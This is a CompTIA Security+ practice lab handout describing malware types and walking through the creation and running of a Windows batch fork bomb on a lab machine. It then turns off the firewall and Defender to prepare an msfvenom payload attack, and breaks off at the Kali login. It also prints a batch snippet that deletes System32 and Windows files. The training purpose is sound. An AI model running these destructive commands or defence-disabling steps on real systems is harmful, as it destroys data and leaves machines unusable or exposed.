






Introduction
9beca326-b493-4b0e-b3dc-d7dfb77df3c9
Welcome to the Identifying Different Cyber Attacks Practice Lab. In this module, you will be provided with the instructions and devices needed to develop your hands-on skills.
dc640c20-9434-45ea-b7c2-6d4d6a196bfc
Learning Outcomes
In this module, you will complete the following exercises:
- Exercise 1 - Malware
- Exercise 2 - Creating Standalone Payloads with Msfvenom
- Exercise 3 - Performing Online Password Attacks
- Exercise 4 - Performing Offline Password Attacks
- Exercise 5 - Explaining Physical and Other Attacks
After completing this module, you should be able to:
- Create a Fork Bomb as a Simple Virus
- Switch Off the Windows Firewall
- Turn off the Windows Defender Real-time Protection
- Create a Payload
- Share the Payload with the Victim
- Use the Multi/handler Module and Exploit the System
- Create a User Account in FTP
- Use Wordlists
- Use Hydra to Guess Usernames and Passwords
- Crack Linux Passwords using John the Ripper
- Use ncrack in Kali Linux
- Generate Rainbow Tables
- Recover Windows Hashes using Cain and Abel
After completing this module, you should have further knowledge of:
- Types of Malware
- Spraying
- Plaintext/Unencrypted
- Malicious Universal Serial Bus (USB) Cable
- Malicious Flash Drive
- Card Cloning / Skimming
- Adversarial Artificial Intelligence (AI)
- Supply-chain Attacks
- Cloud-based vs. On-premise Attacks
- Cryptographic Attacks
Exam Objectives
The following exam objectives are covered in this lab:
1.2 Given a scenario, analyze potential indicators to determine the type of attack.
- Malware
- Password Attacks
- Physical Attacks
- Adversarial Artificial Intelligence (AI)
- Supply-Chain Attacks
- Cloud Based Vs. On Premises Attacks
- Cryptographic Attacks
Note: Our main
focus is to cover the practical, hands-on aspects of the exam
objectives. We recommend referring to course material or a search engine
to research theoretical topics in more detail.
Lab Duration
It will take approximately 1 hour to complete this lab.
c6fa62a3-1a00-4052-8104-258e8cbaa187
Help and Support
For more information on using Practice Labs, please see our Help and Support page. You can also raise a technical support ticket from this page.
Click Next to view the Lab topology used in this module.
d2c53300-f951-45a9-9aa4-3d4ecae69e11
Lab Topology
During your session, you will have access to the following lab configuration.

Depending on the exercises, you may or may not use all
of the devices, but they are shown here in the layout to get an overall
understanding of the topology of the lab.
- PLABDC01 - Windows Server 2019 (Domain Controller)
- PLABDM01 - Windows Server 2019 (Domain Member)
- PLABWIN10 - Windows 10 (Domain Member Workstation)
- PLABKALI - Kali Linux 2019.4 (Standalone Server)
Click Next to proceed to the first exercise.
<
Home |
README >
CompTIA Security+ Practice Labs
Exercise 1 - Malware
Malware is a type of software that is designed to
perform malicious activities. These activities can cause damage to the
computer system or network. Malware is further divided into a number of
categories based on the activities they perform.
In this exercise, you will learn about malware and various types of malware. You will also create a fork bomb.
Learning Outcomes
After completing this exercise, you should be able to:
- Create a Fork Bomb as a Simple Virus
After completing this exercise, you should have further knowledge of:
Your Devices
You will be using the following devices in this lab. Please power these on now.
- PLABDC01 - (Windows Server 2019 - Domain Controller)
- PLABWIN10 - (Windows 10 - Domain Member Workstation)
- PLABKALI - (Kali Linux 2019.4 - Standalone Server)

Types of Malware
Malware is a category of malicious software, and there are various different types, such as:
- Virus
- Worm
- Trojan
- Keylogger
- Spyware
- Backdoor
- Ransomware
Different types of malware have different
characteristics. For example, a trojan is malware that is hidden inside
regular software.
Malware can spread and infect in various ways. Some of the common methods are:
- Free applications or software, such as software cracks or pirated software
- Free file-sharing services, such as torrents or peer-to-peer
- Removable media
- An E-mail that contains a malicious attachment
Some of the key types of malware are:
Ransomware
Ransomware is a type of malware that holds the user
for ransom. The software does not cause any damage to the computer
system or the network. Instead, it targets the data by blocking the
user’s access or encrypting it. The attacker demands a ransom (usually
money) from the user to decrypt or release the data. The data can only
be decrypted if the user has the decryption key, but there is no
guarantee that the attacker will actually provide the decryption key
after receiving the ransom.
Trojan
Trojan is a malware that provides unauthorised access
to the victim’s machine by posing as regular software. Often, the trojan
is an attachment sent over email. As the email receiver executes the
attachment, it establishes a connection back to the attacker’s system.
The attacker can then escalate privilege to perform administrative
activities and lateral movements.
Worm
A worm can be delivered by an email or through other
systems on a network. For example, if a user receives an email with an
attached file that is actually a worm, opening the attachment will cause
the worm to activate. Once triggered, a worm replicates itself from one
system to the other system(s) on the network. Eventually, it attempts
to infect all systems on the network. The spread of a worm can cause
network performance issues.
Botnet
A botnet is a network of bots, which are computer
systems and network devices connected over a network. This entire botnet
is controlled by an attacker known as bot herder. These botnets can
operate over architectures, client-servers, as well as peer-to-peer. The
botnets are used for carrying out various types of attacks, such as a
distributed denial-of-service (DDoS) attacks, data theft, and spamming.
Logic Bomb
A logic bomb works on predefined conditions, such as
time or date. It may exist in the system but triggers only when the
predefined conditions are met. For example, you can create a small
script that gets executed at a specific date and time. Once it is
executed, it can cause severe damage, such as deleting the key
partitions with the operating system and data.
Crypto Malware
Crypto malware is similar to ransomware. However,
ransomware is openly used to demand money from the target. Crypto
malware on the other hand, remains undetected, It exists on the system
quietly. Crypto malware is not used to steal data but to perform
cryptomining, which is a process of solving complex problems to make
cryptocurrency. It remains undetected to an extent that the user never
gets to know anything about it. The security controls, such as
antimalware, may not be able to detect it. With the process of
cryptomining, there is a certain amount of payoff to the attacker.
Spyware
Spyware is designed to watch the user’s behavior and
activity on the system. Spyware can get into a system through an
infected application, or it can be a standalone spyware program. One way
it could enter a user’s system is through cookies. The cookies are
stored on the user’s machine, which are downloaded after a user visits a
website, and have certain privileges like accessing browser settings
and storing user data. A malicious cookie could take advantage of these
privileges to collect data and send the gathered data back to the
attacker. A spyware quietly performs its tasks of stealing data,
monitoring user’s actions and activities, and gathering sensitive
information. After it gathers various types of information from an
infected system, it can relay the information to the attackers.
Rootkit
Some sensitive areas of computer software, such as an
operating system, are not accessible to ordinary users. These are called
root areas since they hold fundamental and essential modules of a
software system. Software designed to gain unauthorized access to this
root area is known as a rootkit. Getting access to these areas allows
the intruder to perform harmful activities. For example, modifying the
software structure and gaining unauthorized access to functions can
damage the system.
Virus
A virus is a software program designed to cause
changes in how a particular program behaves. A virus does this by making
a change to the code of the target software program, which it gains
access to by exploiting a security vulnerability. Due to the virus,
undesirable changes can take place in its behavior.
Potentially Unwanted Programs (PUPs)
People often mistake Potentially Unwanted Programs
(PUPs) with malware. However, PUPs are not designed to perform any kind
of malicious activity on a system, they are simply unwanted programs.
For example, when you install an application from the Internet, you may
notice that you have a new web browser toolbar added. This toolbar is
the PUP.
Often, a PUP is bundled with the legitimate software
you downloaded. They are also mentioned in the End User Agreement.
However, most users do not read the agreement and rush through the
installation, not realising that they are also installing a PUP along
with the software.
PUPs can impact the system performance. For example,
they may run in the background and consume system resources, therefore
impacting the system performance. Also, since you unknowingly installed
these applications, they may have exploitable vulnerabilities that you
are not aware of.
Fileless Virus
Unlike traditional malware, a fileless virus does not
depend on a file executed from a hard drive. Instead, the malware
directly operates from the memory. When the file is loaded into the
memory, it uses a scripting engine like Windows PowerShell to trigger
the payload. However, there is no physical file being downloaded onto
the hard drive. The payload is executed from memory.
Because there is no physical file involved, it is
difficult for antimalware or antivirus applications to detect it. Also,
the malware is being executed within a legitimate application like
Windows PowerShell, so it is hard to stop the malicious script
execution.
Command and Control
The behavior of the malware can be directed and
controlled by the Command and Control (C&C) server. When the malware
exfiltrates data, it is sent to the server.
As well as directing and controlling malware, the
C&C server can also control a botnet. The C&C server gives
directions to attack the target(s). One C&C server can control and
manage thousands of bots at any given time.
Keyloggers
Keyloggers are tools that log user activity by
capturing keystrokes, collecting screenshots, and recording application
windows opened by a user. This tool is important for user surveillance
and is considered a useful tool for law enforcement. When used
maliciously, keyloggers can be a dangerous tool for secretly recording
user system activity with the intent of harming the unsuspecting user.
For example, by capturing keystrokes, the users passwords can be logged.
Backdoor
A backdoor is access to an application that is created
by the developer. The users of these applications do not know that
there is a backdoor. Generally, the developers create a backdoor to
remotely administer or gain access to the application. It can also be
used to give the developers access in case they forget the
administrative credentials.
Backdoors can also be created by malicious
applications or malware. These backdoors are used by the attackers to
gain access to the system without letting the user know.
Task 1 - Create a Fork Bomb as a Simple Virus
A fork bomb is a form of virus. When executed, it goes
in an infinite loop, so does not stop. Eventually, the system hangs and
crashes because of the shortage of system resources. You can design the
virus to reach many different objectives.
For example, you can create a small virus to delete a
Windows operating system’s System32 directory files. On execution, this
code can damage the system, and it may require extensive time and skill
to fix it:
@echo off
Del c:\windows\system32\*.*
Del c:\windows\*.*
The @echo off command does not show the command being executed, so allows it to run in the background.
In this task, you will create a fork bomb using a batch file and execute it.
Step 1
Ensure you have powered on the required devices. Connect to PLABWIN10.
Figure 1.1 Screenshot of PLABWIN10: Displaying the desktop of PLABWIN10.
Step 2
To open Task Manager from the PLABWIN10 desktop, right-click the taskbar and select Task Manager.
Figure 1.2 Screenshot of PLABWIN10: Right-clicking the taskbar and selecting Task Manager.
Step 3
The Task Manager window is displayed.
Click the More details drop-down arrow.
Figure 1.3 Screenshot of PLABWIN10: Showing the Task Manager window with More details selected.
Step 4
The Task Manager window expands with the Processes tab selected by default.
Click the Performance tab.
Note: The Performance tab in Task Manager helps you observe the working of the fork bomb execution.
Figure 1.4 Screenshot of PLABWIN10: Showing the Processes tab on Task Manager and clicking the Performance tab.
Step 5
Notice that the performance of various components, such as CPU and Memory, is displayed on this tab.
Minimize the Task Manager window.
Figure 1.5 Screenshot of PLABWIN10: Showing the CPU performance on the Performance tab.
Step 6
You now need to open Notepad. You need Notepad
to write the virus and then save the file as a batch file. In a real
scenario, you could use any text editor that is available on the system.
In the Type here to search textbox on the toolbar, type the following:
Notepad
From the search results, click Notepad.
Figure 1.6 Screenshot of PLABWIN10: Selecting Notepad from the search results.
Step 7
The Untitled - Notepad window opens.
To create a new batch file, in the Untitled - Notepad window, type the following fork bomb code:
%0|%0
Note: A batch file contains instructions to be executed in sequence. In this batch file, %0 is
the name of the currently executing code. This batch file is going to
repeatedly execute itself forever. It quickly creates many processes and
slows down the system. First the %0 command is run and then the second
%0 command, which is located after the pipe, is run. They both run
repeatedly until manually stopped.
Figure 1.7 Screenshot of PLABWIN10: Entering the commands in the Notepad file.
Step 8
To save the file, in the toolbar, click File > Save As.
Figure 1.8 Screenshot of PLABWIN10: Selecting Save As from the File menu.
Step 9
The Save As dialog box appears. You can save the file on the desktop. To do this, select Desktop in the left pane.
To provide the file name, in the File name textbox, type the following:
forkbomb.bat
From the Save as type drop-down, select All Files.
If you do not choose All Files, the file will be saved with default
.txt extension. With the selection of All Files, you can provide any
other extension with the file name.
Click Save.
Figure 1.9 Screenshot of PLABWIN10: Entering the file name in the File name textbox and then clicking Save.
Step 10
Close the forkbomb - Notepad window.
Figure 1.10 Screenshot of PLABWIN10: Closing the Notepad window.
Step 11
Notice the forkbomb.bat file is created on the desktop.
You need to restore Task Manager now. Click Task Manager in the taskbar.
Figure 1.11 Screenshot of PLABWIN10: Restoring Task Manager from the taskbar.
Step 12
Before you execute the forkbomb.bat batch file, observe the CPU usage in Task Manager.
In the Task Manager window, under the Performance tab, observe the CPU activity in the left pane.
The CPU utilization is quite low.
Note: The CPU performance will vary in your lab environment.
Figure 1.12 Screenshot of PLABWIN10: Showing the CPU utilization before executing the fork bomb batch file.
Step 13
Reduce the size of the Task Manager window so that the forkbomb.bat file is visible on the desktop.
To execute the forkbomb.bat file on the desktop, right-click forkbomb and select Open.
Figure 1.13 Screenshot of PLABWIN10: Right-clicking the forkbomb file and then selecting Open from the context menu.
Step 14
The Command Prompt window opens, and the forkbomb.bat file starts executing recursively.
Figure 1.14 Screenshot of PLABWIN10: Showing the execution of the forkbomb file in the command prompt.
Step 15
After the batch file execution, observe the CPU usage in Task Manager.
In the Task Manager window, under the Performance tab, observe the CPU activity in the left pane.
The CPU utilization went up to 100%, and the memory consumption went up from 2.9 GB.
Note: The CPU and memory usage may vary in your lab environment.
The PLABWIN10 device
may hang and could crash itself. The windows may abruptly close, and
you may not be able to reconnect to the device. To stop the execution of
the virus, you can Reboot the device in the
central pane of the Practice Labs platform. After this, you will be
reconnected and can continue to the next exercise.
 Figure 1.15 Screenshot of PLABWIN10: Showing the high CPU utilization in Task Manager.
Figure 1.15 Screenshot of PLABWIN10: Showing the high CPU utilization in Task Manager.
Step 16
You may receive an error message during the execution.
For the purpose of this demonstration, the batch file execution brings up an error message.
Click OK to close the cmd.exe - Application Error message box.
Alert: Please be aware that
your screenshot may not work as intended. The reason for this is that
file that open can make the CPU use 100% utilization. If this happens
please reboot the lab and then use the screenshot tool.
Alternatively
if you are able to, you can use the screenshot tool before you open the
notepad. This will then allow you to delete the last screenshot and
allow the screenshot tool to work as intended. Please be aware that this
is if you have the ability to use the tool multiple times.
a5adbee1-b3d4-422f-907b-2999d763f275
Figure 1.16 Screenshot of PLABWIN10: Showing the cmd.exe - Application Error dialog box with OK selected.
Alert: Since the processes continue to run, the message box will continue to appear after clicking OK. To stop this, you should reboot the PLABWIN10 device from the Practice Labs environment.
<
Home |
README >
CompTIA Security+ Practice Labs
Exercise 2 - Creating Standalone Payloads with Msfvenom
If a system does not have the latest updates or does
not have sufficient security configured, it is prone to be hacked.
However, even if these measures are in place, users can still be
convinced to execute a malicious application (such as through social
engineering), which could allow an attacker to control the system.
Various tools can be used for hacking into a system, such as Msfvenom.
It allows you to create custom payloads, which can be deployed to the
user’s system.
In this exercise, you will create a standalone payload with Msfvenom and deploy it on the targeted host for exploitation.
Disclaimer: The tools and
techniques displayed in these exercises are to be used for the greater
good of improving network security. Please do not use these techniques
for malicious activities. Usage of all tools for attacking targets
without prior mutual consent is illegal. Practice Labs assume no
liability for any misuse or damage caused if these tools and techniques
are used for malevolent activities.
Learning Outcomes
After completing this exercise, you should be able to:
- Switch Off the Windows Firewall
- Turn off the Windows Defender Real-time Protection
- Create a Payload
- Share the Payload with the Victim
- Use the Multi/handler Module and Exploit the System
Your Devices
You will be using the following devices in this lab. Please power these on now.
- PLABDC01 - (Windows Server 2019 - Domain Controller)
- PLABWIN10 - (Windows 10 - Domain Member Workstation)
- PLABKALI - (Kali Linux 2019.4 - Standalone Server)

Task 1 - Switch Off the Windows Firewall
You will need to switch off the Windows Firewall to perform an attack on PLABWIN10.
There are attacking methods that you can use to bypass
a firewall running on the target. However, for this module, you will
switch off the Windows Firewall and proceed with the remaining tasks. If
you do not shutdown the firewall, you cannot connect to the device.
Step 1
Ensure that you have connected to PLABWIN10.
The PLABWIN10 desktop is displayed.
Figure 2.1 Screenshot of PLABWIN10: Showing the desktop of PLABWIN10.
Step 2
In the Type here to search text box, type the following:
Windows Firewall
From the search results, select the Windows Defender Firewall.
Figure 2.2 Screenshot of PLABWIN10: Selecting Windows Defender Firewall from the search results.
Step 3
The Windows Defender Firewall window is displayed.
On the Help protect your PC with Windows Defender Firewall page, click Turn Windows Defender Firewall on or off in the left pane.
Figure 2.3 Screenshot of PLABWIN10: Clicking Turn Windows Firewall on or off in the left pane.
Step 4
On the Customize settings for each type of network page, select Turn off Windows Defender Firewall (not recommended) for the Domain, Private, and Public network settings.
Click OK.
Figure
2.4 Screenshot of PLABWIN10: Selecting Turn off Windows Firewall (not
recommended) for Domain, Private, and Public network.
Step 5
On the Help protect your PC with Windows Defender Firewall page, notice that Windows Defender Firewall is now turned off for Domain, Private, and Public networks.
Close all windows.
Figure 2.5 Screenshot of PLABWIN10: Verifying the Windows Firewall status and closing the Control Panel window.
Task 2 - Turn off the Windows Defender Real-time Protection
You will need to turn off the Windows Defender real-time protection to perform an attack on PLABWIN10.
You can use attacking methods to bypass antivirus or
antimalware running on the target. However, for this module, you will
turn off the Windows Defender real-time protection and proceed with the
remaining tasks. If you do not turn off the Windows Defender real-time
protection, it will catch the malware in real-time, so when you download
the malicious file from PLABKALI, it will delete the file immediately.
To turn off the Windows Defender real-time protection, perform the following steps:
Step 1
Ensure that you have connected to PLABWIN10.
The PLABWIN10 desktop is displayed.
 Figure 2.6 Screenshot of PLABWIN10: Showing the desktop of PLABWIN10.
Figure 2.6 Screenshot of PLABWIN10: Showing the desktop of PLABWIN10.
Step 2
In the system tray, on the right, click the up arrow and select Windows Security.
Figure 2.7 Screenshot of PLABWIN10: Clicking the up arrow in the system tray and selecting Windows Security.
Step 3
The Windows Security window is displayed.
In the left pane, click Virus & threat protection.
Figure 2.8 Screenshot of PLABWIN10: Clicking Virus & threat protection in the left pane of the Windows Security window.
Step 4
In the right pane, under the Virus & threat protection settings section, click Manage settings.
Figure 2.9 Screenshot of PLABWIN10: Clicking Manage settings in the Virus & threat protection window.
Step 5
On the Virus & threat protection settings page, in the right pane, click the slider in the Real-time protection section to turn it off. By default, Real-time protection is on.
Figure 2.10 Screenshot of PLABWIN10: Clicking the slider in the Real-time protection section.
Step 6
The User Account Control dialog box is displayed. Click Yes to continue.
Figure 2.11 Screenshot of PLABWIN10: Clicking Yes in the User Account Control dialog box.
Step 7
Notice that the Real-time protection is now set to Off.
Close the Windows Security window.
 Figure 2.12 Screenshot of PLABWIN10: Closing the Windows Security window.
Figure 2.12 Screenshot of PLABWIN10: Closing the Windows Security window.
Task 3 - Create a Payload
When you want to create a standalone payload, you can
use Msfvenom. To use this tool, you do not need to invoke the Metasploit
framework, and it can work directly from the command prompt in Kali
Linux.
With the msfvenom command, you can list all available payloads or choose a payload.
In this task, you will choose a payload.
Step 1
Connect to PLABKALI.
In the Enter your username text box, type the following:
root
In the Enter your password text box, type the following:
Passw0rd
Click Log In or press Enter.
 Figure 2.13 Screenshot of PLABKALI: Logging on to the Kali Linux device.
